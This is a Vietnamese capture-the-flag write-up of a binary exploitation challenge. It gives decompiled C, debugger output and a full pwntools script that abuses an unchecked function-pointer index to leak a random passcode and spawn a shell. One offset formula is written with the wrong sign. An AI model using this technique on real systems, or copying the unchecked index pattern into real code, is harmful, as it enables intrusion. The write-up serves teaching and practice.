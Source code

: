 
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  __int64 choice; // [rsp+0h] [rbp-10h]
  __int64 ag; // [rsp+8h] [rbp-8h]

  setup(argc, argv, envp);
  printf("[*] NickName> ");
  if ( read(0, &username, 0x40uLL) == -1 )
  {
    perror("READ ERROR");
    exit(-1);
  }
  while ( 1 )
  {
    menu();
    choice = read_int();
    printf("[*] Guess>");
    ag = read_int();
    ((void (__fastcall *)(__int64))conv[choice - 1])(ag);
  }
}
```
```c
__int64 read_int()
{
  __int64 buf[6]; // [rsp+0h] [rbp-30h] BYREF

  buf[5] = __readfsqword(0x28u);
  memset(buf, 0, 32);
  printf("> ");
  if ( read(0, buf, 0x20uLL) == -1 )
  {
    perror("READ ERROR");
    exit(-1);
  }
  return atol((const char *)buf);
}
```
```c
unsigned __int64 __fastcall hard(__int64 a1)
{
  int i; // [rsp+14h] [rbp-2Ch]
  char path[8]; // [rsp+2Fh] [rbp-11h] BYREF
  char v4; // [rsp+37h] [rbp-9h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  strcpy(path, "<qz}<`{");
  v4 = 0;
  for ( i = 0; i <= 6; ++i )
    path[i] ^= 0x13u;
  if ( a1 == passcode )
  {
    puts("[+] WINNNN!");
    execve(path, 0LL, 0LL);
  }
  else
  {
    puts("[-] YOU ARE NOT WORTHY FOR A SHELL!");
  }
  change_passcode();
  return v5 - __readfsqword(0x28u);
}
```

Về cơ bản thì chương trình sẽ cho phép ta nhập `tên` vào biến `username` và tiếp đến sẽ cho ta những `options` để chọn. Để ý ở hàm `main` ta thấy:
```c
  while ( 1 )
  {
    menu();
    choice = read_int();
    printf("[*] Guess>");
    ag = read_int();
    ((void (__fastcall *)(__int64))conv[choice - 1])(ag);
  }
}
```
Thì ở đây nó dùng `((void (__fastcall *)(__int64))conv[choice - 1])(ag);` cho phép tạo một con trỏ hàm cho phép nhận duy nhất một tham số với `conv[choice - 1]` là mảng lưu trữ 2 hàm `easy` và `hard`. Và khi ta nhập option `2` thì nó sẽ chuyển sang hàm `hard` cho ta. Hàm này sẽ cho ta tạo `shell` nếu ta đoán đúng `passcode` và `passcode` được gán giá trị random nhờ hàm `change_passcode`:
```c
int change_passcode()
{
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("/dev/random", 0);
  if ( fd < 0 )
  {
    perror("OPEN ERROR");
    exit(-1);
  }
  if ( read(fd, &passcode, 8uLL) == -1 )
  {
    perror("READ ERROR");
    exit(-1);
  }
  puts("[*] PASSCODE CHANGED!");
  return close(fd);
}
```
Hàm sẽ lấy giá trị ngẫu nhiên từ `/dev/random` và gán nó vào `&passcode`. Đến đây mình khá bí vì không biết nên làm gì tiếp theo, nên là mình đã debug file này một hồi khá lâu thì nhận ra rằng `((void (__fastcall *)(__int64))conv[choice - 1])(ag)` trước khi nó gọi một hàm nào đó nó sẽ setup `conv[choice - 1]` như thế này:
```sh
   0x401609 <main+148>    mov    qword ptr [rbp - 8], rax        [0x7fffffffdbc8] <= 0x2b67
   0x40160d <main+152>    mov    rax, qword ptr [rbp - 0x10]     RAX, [0x7fffffffdbc0] => 2
   0x401611 <main+156>    sub    rax, 1                          RAX => 1 (2 - 1)
 ► 0x401615 <main+160>    lea    rdx, [rax*8]                    RDX => 8
   0x40161d <main+168>    lea    rax, [rip + 0x29ec]             RAX => 0x404010 (conv) —▸ 0x4012e1 (easy) ◂— push rbp
   0x401624 <main+175>    mov    rdx, qword ptr [rdx + rax]      RDX, [conv+8] => 0x40132c (hard) ◂— push rbp
   0x401628 <main+179>    mov    rax, qword ptr [rbp - 8]        RAX, [0x7fffffffdbc8] => 0x2b67
   0x40162c <main+183>    mov    rdi, rax                        RDI => 0x2b67
   0x40162f <main+186>    call   rdx                         <hard>
```

Thì mình đã nhập `choice` là `2`, như ta có thể thấy nó lấy kết quả đó trừ 1 và lưu vào `rax` và rồi lấy kết quả đó tính toán cho `rdx` (ở lần thử này `rdx = 8`). Tiếp đến gán địa chỉ của `conv` cho rax và cuối cùng là gán địa chỉ của `conv+offset` cho `rdx` rồi thực thi nó. Điều này làm cho mình nảy ra ý tưởng có thể tận dùng cái này để leak ra `passcode`. Và ý tưởng của mình là:

- Ta sử dụng biến `username` để giữ địa chỉ `puts@plt`
- Dùng `puts(&passcode)` để leak `passcode` và call hàm `hard(passcode)` để tạo shell

Nhưng điều đầu tiên chúng ta cần làm là tính toán giá trị từ `conv` đến `username` trong memory để khi nó thực thi nó sẽ thực thi `got@plt` ta để ở biến `username`. `username` có địa chỉ `0x404080` và `conv` có địa chỉ `0x404010`. Offset từ `conv` -> `username` sẽ là `[(0x404080 + 0x404010) // 8] + 1 = 15`. Như vậy ta có thể leak được `passcode` và dùng nó để tạo shell

Full exploit:

```py
#!/usr/bin/python3
from pwncus import *

# context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)


def GDB(): gdb.attach(p, gdbscript='''


c
''') if not args.REMOTE else None

p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT 
# ===========================================================

passcode_address = 0x404060
puts_plt = exe.plt.puts

sa(b'[*] NickName> ', p64(puts_plt))
sla(b'> ', b'15')
sa(b'>', str(passcode_address).encode())

ru(b'> ')
# print(ru(b'\n'))
passcode = u64(ru(b'\n').strip())
print(f'Passcode leak: {passcode}')

sla(b'> ', b'2')
sa(b'>', str(passcode).encode())
interactive()
```
